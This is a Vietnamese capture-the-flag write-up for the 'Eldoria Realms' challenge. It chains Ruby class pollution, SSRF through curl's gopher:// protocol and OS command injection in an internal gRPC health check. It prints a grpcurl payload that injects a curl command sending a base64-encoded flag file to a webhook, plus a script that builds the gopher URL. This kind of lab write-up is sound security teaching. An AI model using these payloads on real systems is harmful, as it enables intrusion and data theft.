









+++
date = '2025-07-16T00:12:00+07:00'
draft = false
title = 'Cyber Apocalypse 2025: Eldoria Realms'
description = 'Hệ thống có 2 services:'
tags = ['write-up']
+++
# Cyber Apocalypse 2025: Eldoria Realms

## Overview

Hệ thống có 2 services:

* Website được viết bằng Ruby
* gRPC Server

### gRPC

[**gRPC**](https://grpc.io/) là một framework RPC (Remote Procedure Call) mã nguồn mở và hiệu năng cao do Google phát triển, cho phép các ứng dụng giao tiếp với nhau qua mạng như thể gọi các hàm nội bộ. Có thể xem là sự thay cho RESTFul API và được sử dụng chủ yếu trong kiến trúc microservices.

gRPC sử dụng HTTP/2, cung cấp tính năng multiplexing (gửi nhiều yêu cầu qua một kết nối duy nhất) giúp cải thiện hiệu năng và giảm độ trễ.

## Phân tích

Tại endpoint `POST /merge-fates` có đầu vào là một JSON object, sau đó các thuộc tính của object đầu vào sẽ được merge với object `$player` đã được khởi tạo từ trước.

```ruby
post "/merge-fates" do
	content_type :json
	json_input = JSON.parse(request.body.read)
	[...]

	$player = Player.new(
		name: "Valiant Hero",
		age: 21,
		attributes: random_attributes
	)
	$player.merge_with(json_input)
	{ 
		status: "Fates merged", 
		player: { 
			name: $player.name, 
			age: $player.age, 
			attributes: $player.attributes 
		} 
	}.to_json
end
```

Hàm merge được triển khai như sau:

<pre class="language-ruby"><code class="lang-ruby">def merge_with(additional)
<strong>	recursive_merge(self, additional)
</strong>end

private
def recursive_merge(original, additional, current_obj = original)
  additional.each do |key, value|
    if value.is_a?(Hash)
      if current_obj.respond_to?(key)
        next_obj = current_obj.public_send(key)
        recursive_merge(original, value, next_obj)
      else
        new_object = Object.new
        current_obj.instance_variable_set("@#{key}", new_object)
        current_obj.singleton_class.attr_accessor key
      end
    else
      current_obj.instance_variable_set("@#{key}", value)
      current_obj.singleton_class.attr_accessor key
    end
  end
  original
end
</code></pre>

Sau khi tìm hiểu thì mình tìm được một [blog](https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html) nói về chủng lỗi **Class Pollution** trong ngôn ngữ Ruby.

Với hàm merge như trên, ta có thể thao túng thuộc tính **static** thuộc về class của đối tượng, hoặc xa hơn là thao túng thuộc tính của class **Object**, là class được thừa kế bởi tất cả class khác.

Payload khai thác có format như sau:

```json
{
    "class":{
        "superclass":{
            "attribute":"value"
        }
    }
}
```

Tiếp đến ta sẽ xem xét endpoint `GET /connect-realm`

<pre class="language-ruby"><code class="lang-ruby">get "/connect-realm" do
<strong>    content_type :json
</strong>    if Adventurer.respond_to?(:realm_url)
        realm_url = Adventurer.realm_url
        begin
            uri = URI.parse(realm_url)
            stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
            { status: "HTTP request made", realm_url: realm_url, response_body: stdout }.to_json
        rescue URI::InvalidURIError => e
            { status: "Invalid URL: #{e.message}", realm_url: realm_url }.to_json
        end
    else
        { status: "Failed to access realm URL" }.to_json
    end
end
</code></pre>

Endpoint này có chức năng tạo một HTTP request tới `realm-url` và trả về status code.

`realm-url` được hardcode trong class `Adventurer` .

```ruby
class Adventurer
	@@realm_url = "http://eldoria-realm.htb"

	attr_accessor :name, :age, :attributes

	def self.realm_url
		@@realm_url
	end
[...]
```

Nhưng nhờ lỗ hổng Class Pollution mà ta hoàn toàn có thể thay đổi giá trị của biến này.

Ở gRPC server cung cấp cho chúng ta 2 phương thức. Trong phương thức `CheckHealth()` tồn tại lỗ hổng **OS Command Injection.**

```ruby
func (s *server) CheckHealth(ctx context.Context, req *pb.HealthCheckRequest) (*pb.HealthCheckResponse, error) {
	ip := req.Ip
	port := req.Port

	if ip == "" {
		ip = s.ip
	}
	if port == "" {
		port = s.port
	}

	err := healthCheck(ip, port)
	if err != nil {
		return &pb.HealthCheckResponse{Status: "unhealthy"}, nil
	}
	return &pb.HealthCheckResponse{Status: "healthy"}, nil
}

func healthCheck(ip string, port string) error {
	cmd := exec.Command("sh", "-c", "nc -zv "+ip+" "+port)
	output, err := cmd.CombinedOutput()
	if err != nil {
		log.Printf("Health check failed: %v, output: %s", err, output)
		return fmt.Errorf("health check failed: %v", err)
	}

	log.Printf("Health check succeeded: output: %s", output)
	return nil
}
```

Tuy nhiên hiện tại ta chưa thể tương tác với phương thức này, do gRPC nằm trong mạng nội bộ, còn Web server thì chỉ hỗ trợ tương tác với phương thức `StreamLiveData()` còn lại.

Đến đây thì ta nghĩ đến việc lợi dụng lệnh curl để có thể gửi request tới gRPC server và thực thi phương thức `CheckHealth()`.

Tuy nhiên để có thể sử dụng `curl` tương tác với gRPC theo cách thông thường ta cần sử dụng thêm nhiều flag khác ví dụ như `http2-prior-knowledge` để có thể sử dụng HTTP/2, `-d` để truyền POST data đi, … Nhưng `realm-url` lại được truyền vào một array arguments, nên không thể escape để thêm flag khác, mà thực ra escape được thì chèn luôn lệnh khác là xong rồi :))))))

```ruby
stdout, stderr, status = Open3.capture3("curl", "-o", "/dev/null", "-w", "%{http_code}", uri)
```

Đến lúc người anh già tham gia vào được chơi


Theo ý hiểu của mình, `gopher://` đơn giản là gửi TCP data tới server đích, tức ta có thể tương tác với mọi TCP server, miễn là biết trước format các request được gửi đi. Đọc thêm ở [đây](https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630).

Hãy lấy ví dụ bằng việc gửi một HTTP GET request bằng `gopher://`&#x20;



Lợi dụng đặc điểm đó, ta cũng có thể gửi HTTP/2 request đến gRPC để yêu cầu thực thi phương thức `CheckHealth()` và khai thác OS Command Injection.

## Exploit

Như đã nói trước đó, ta cần biết được format của request để có thể gửi chúng đi bằng gopher.

Ta có thể tự craft bằng tay, URL encode request rồi nhét vào gopher protocol. Tuy nhiên có một cách đơn giản hơn, đứng trên vai người khổng lồ, sử dụng các công cụ có sẵn như `grpcurl`, gửi một request hợp lệ đến gRPC server và capture chúng bằng `tcpdump` hoặc `tshark`.

```bash
grpcurl -plaintext -proto ./challenge/live_data.proto -d '{"ip": ";", "port":"curl -d `cat /flag* | base64` <webhook>"}' localhost:50051 live.LiveDataService/CheckHealth
```

```bash
sudo tcpdump -i any port 50051 -w out.pcap
```



Mở file pcap nhận được bằng wireshark



Sau đó chọn Follow TCP Stream để lấy được HTTP/2 request.



Dùng python để xử lý hex và URLencode payload

```python
from urllib.parse import quote
import os

hex_string = "505249202a2048<...>00000002041010090e0707"

byte_data = bytes.fromhex(hex_string)

# print(quote(byte_data))
print(f"gopher://localhost:50051/_{quote(byte_data)}")

# os.system(f"curl -o /dev/null -w %{{http_code}} gopher://localhost:50051/_{quote(byte_data)}")

```

Khai thác Class Pollution để thay đổi `realm-url` thành gopher URL



Gửi request tới endpoint `/connect-realm` để trigger tới lệnh `curl`



Và hưởng thụ thành quả :))))





## Beyond RCE

Có thể các bạn sẽ test payload của mình ở local trước nhưng sau đó lại gặp phải lỗi `curl: (3) URL using bad/illegal format or missing URL`&#x20;

Còn cùng 1 payload đó khi được chèn thực thi trong docker thì lại hoạt động.



Điều này là do từ phiên bản 7.70 đổ về trước, `curl` mới cho phép NULL byte xuất hiện trong giao thức `gopher://` , nên khi test trên máy local (thường phiên bản curl sẽ mới hơn) sẽ gặp bị lỗi như trên. Các bạn có thể đọc thêm tại [đây](https://github.com/curl/curl/issues/14219) và [đây](https://github.com/curl/curl/issues/9089).
